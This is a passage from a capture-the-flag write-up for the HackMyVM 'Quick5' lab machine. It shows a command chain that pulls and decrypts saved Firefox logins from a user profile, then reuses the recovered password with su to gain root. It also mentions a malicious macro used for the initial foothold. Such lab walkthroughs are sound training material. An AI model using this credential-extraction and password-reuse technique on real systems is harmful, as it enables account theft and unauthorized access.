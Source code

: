 ```bash
┌──(emvee㉿kali)-[~/…/common/.mozilla/firefox/ii990jpt.default]
└─$ find . -name 'logins.json' -exec jq '.logins[] | .hostname, .encryptedUsername, .encryptedPassword' -r {} \; | pwdecrypt -d .
http://employee.quick.hmv
Decrypted: "andrew.speed@quick.hmv"
Decrypted: "SuperSecretPassword"

```

## Privilege escalation
Since we have now a password for the user Andrew we should try to reuse it or spray it on the system. In this case we should first try the password with the root user. 
```bash
andrew@quick5:~$ su root
su root
Password: SuperSecretPassword
id
uid=0(root) gid=0(root) groups=0(root)
cd ~
pwd
/root
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,DYNAMIC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:7a:01:4c brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.49/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 359sec preferred_lft 359sec
    inet6 fe80::a00:27ff:fe7a:14c/64 scope link 
       valid_lft forever preferred_lft forever
hostname
quick5
ls
root.txt

```

Just one more step we have to do, capturing the root flag!

![image](/assets/img/WriteUp/HackMyVM/Quick5/Pasted image 20240215102336.png){: width="700" height="400" }


## Conclusion

We began by examining the website's functionalities and technologies, then crafted and uploaded a malicious macro to exploit the vulnerability. This allowed us to gain an initial foothold as the 'recruiter' user.
